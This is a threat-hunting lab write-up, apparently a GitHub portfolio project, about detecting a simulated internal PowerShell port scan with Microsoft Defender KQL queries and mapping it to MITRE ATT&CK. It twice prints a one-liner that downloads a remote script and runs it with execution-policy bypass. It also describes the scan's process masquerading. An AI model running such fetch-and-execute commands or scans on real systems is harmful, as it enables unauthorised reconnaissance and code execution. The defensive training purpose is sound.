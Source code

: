 # 🛡️ Threat Hunting Project: Entropy Gorilla Port Scan

## 📁 Overview
This project documents the investigation, analysis, and response to an internal network scanning incident using Microsoft Defender for Endpoint (MDE), Azure, and PowerShell. The port scan was traced to a script executed on a Windows VM named `labuser`, using the SYSTEM account.

---

## 💣 Initial Setup: Simulated Attack
Before starting the hunt, a PowerShell-based port scanning script was intentionally executed on a VM to simulate malicious behavior and generate logs for threat hunting.

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

![Ran malicious code inside VM](https://github.com/user-attachments/assets/5b435f36-df4b-456d-8404-925af98891c6)

What the Malicious Script Does:

- The PowerShell script portscan.ps1 simulates an internal reconnaissance attack:

- Scans the IP range 10.0.0.4 to 10.0.0.10.

- Uses Test-NetConnection to ping each host and test for open TCP ports.

- Targets a list of common ports (e.g., 22, 80, 443, 3389).

- Logs results (open/closed) to C:\ProgramData\entropygorilla.log.

- Masquerades as a legitimate Windows process by naming itself RuntimeBroker.exe.
---

## 🚩 Scenario Summary
- A VM showed suspicious `ConnectionFailed` network activity.
- PowerShell script `portscan.ps1` was downloaded and executed.
- The scan targeted the internal subnet (10.0.0.0/16), using common ports.
- The script mimicked a system process (`RuntimeBroker.exe`).
- Activity mapped to multiple MITRE ATT&CK TTPs.

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: An internal asset is scanning local network hosts.
- Reason: High failed connection volume and unrestricted PowerShell use.

### 2. Data Collection
Queried the following tables in MDE Advanced Hunting:
```kql
- `DeviceNetworkEvents`
| where DeviceName == "labuser"
| where ActionType == "ConnectionFailed"
| summarize count() by DeviceName, ActionType, LocalIP
| order by count_

![Screenshot 2025-06-15 231048](https://github.com/user-attachments/assets/7e487c1b-0ee1-4e7d-abc6-8632f51eaff2)

### 3. Data Analysis
Confirmed host `10.0.0.95` showed excessive failed connections.
```kql
let IPInQuestion = "10.0.0.95";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

📸 Screenshot: `Screenshot 2025-06-15 232635.png` (Network analysis showing failed connections)

### 4. Investigation
Used `DeviceProcessEvents` to locate scripts run during the attack:
```kql
let VMName = "labuser";
DeviceProcessEvents
| where DeviceName == VMName
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, ActionType
```

Identified the script:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📸 Screenshots:
- `Screenshot 2025-06-15 234201.png` (Process creation detection)
- `Logged in to suspicious VM to check the file and the malicious script.PNG`

### 5. Response
Steps taken:
- ✅ Isolated the VM (`labuser`) using Microsoft Defender.
- ✅ Removed malicious file: `C:\programdata\portscan.ps1`
- ✅ Rebuilt the VM from Azure Portal.
- ✅ Enabled PowerShell Script Block & Module Logging.

📸 Screenshot: `Screenshot 2025-06-15 234540.png` (Device isolation in MDE)

### 6. Documentation
Script downloaded via:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📎 All screenshots are archived per investigation phase.

### 7. Improvement
- 🔐 Hardened PowerShell logging.
- 📊 Created detection rule for excessive `ConnectionFailed` logs.
- 🧼 Reviewed scheduled tasks and services on critical assets.

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic              | Technique                            | ID         |
|---------------------|----------------------------------------|------------|
| Discovery           | Network Service Scanning              | T1046      |
| Discovery           | Remote System Discovery               | T1018      |
| Execution           | PowerShell                            | T1059.001  |
| Defense Evasion     | Masquerade Task or Service            | T1036.004  |
| Execution           | User Execution: Malicious File        | T1204.002  |
| Persistence*        | Create/Modify System Process          | T1543.003  |

---

## 📌 Recommendations
- Configure alerts for anomalous PowerShell execution.
- Lock down PowerShell usage via GPO or AppLocker.
- Monitor for file names mimicking system processes.
- Tune SIEM rules to detect local lateral movement patterns.

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Azure Portal (VM Deployment & Management)
- Windows PowerShell ISE
- PowerShell Logging Registry Policies

---

Project maintained by: Felipe Restrepo
Date: June 16, 2025
